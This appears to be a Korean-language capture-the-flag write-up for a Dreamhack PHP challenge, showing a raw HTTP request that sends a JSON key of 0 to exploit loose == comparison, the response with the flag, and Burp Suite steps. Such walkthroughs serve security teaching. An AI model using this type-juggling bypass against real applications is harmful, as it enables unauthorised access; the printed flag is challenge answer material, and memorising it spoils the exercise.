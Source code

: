 # Payload

```Request
POST /index.php HTTP/1.1
Host: host3.dreamhack.games:21460
Content-Length: 22
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: ko-KR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://host3.dreamhack.games:21460
Referer: http://host3.dreamhack.games:21460/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

json=%7B%22key%22:0%7D
```

```Response
HTTP/1.1 200 OK
Date: Mon, 15 Jul 2024 10:41:00 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 67
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"code":true,"flag":"DH{c857ca841295d6df5f83186e647e3ef1f2a1530c}"}
```
# 검색 키워드
- PHP type comparison tables
# 해설
## 배경지식
- php에서 비교 연산자 중
  - `==` 는 느슨한 비교를 의미한다.
  - `===`는 엄격한 비교를 의미한다. 타입까지 같은지 구별한다.
## 코드 분석
- 9번째 줄에서 POST 방식으로 JSON을 입력을 받아 decode 한 후, $json 변수에 저장한다.
- 10번째 줄에서 $key를 gen_key() 함수를 통해 랜덤하게 생성한다.
  - 19줄 function gen_key() 함수
    - $key 변수를 "welcome to wargame.kr!_" 을 접두사로 붙인 랜덤한 문자열 id를 생성한다.
    - 이 값은 현재의 시간 값을 기반으로 id를 생성하기 때문에, 웬만해서는 이 값을 알기 힘들다.
- 11번째 줄에서 $json의 하위 속성 key와 랜덤하게 생성한 $key 변수를 비교한다.
  - 여기에서 비교 연산자로 느슨한 비교를 하기 때문에, type confusing을 일으켜 $key에 저장된 값을 몰라도 결과를 True로 반환되게 해 볼 수 있다.
  - 임의의 문자열과 0 자체를 비교시킬 때, php 8.0 이하에서는 true가 반환되므로, POST로 넘어가는 값을 0으로 변경시켜 보자.
## 익스플로잇
- Burp Suite를 켠다.
- 아무 값이나 입력한 후, check 버튼을 눌러 제출한다.
- json에 넘어가는 값은 특수문자가 인코딩된 값이다.
  - 인코딩 된 값을 cyberchef의 URL Decode를 이용하여 원래의 값이 어떻게 되어 있는지 볼 수 있다.![alt text](image-1.png)
- 입력한 문자열이 "", 큰따옴표로 감싸져 있는데, 이렇게 넘어가게 되면 어떠한 값을 입력해도 문자열로 타입이 변환된다.
- 따라서, 따옴표가 없는 0이 넘어가도록 값을 바꿔준다.![alt text](image-2.png)
- 이후 변조된 요청을 Send하면 Flag가 포함된 응답을 받을 수 있다.![alt text](image.png)

# 참조 링크
- [https://www.php.net/manual/en/types.comparisons.php](https://www.php.net/manual/en/types.comparisons.php)
- [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)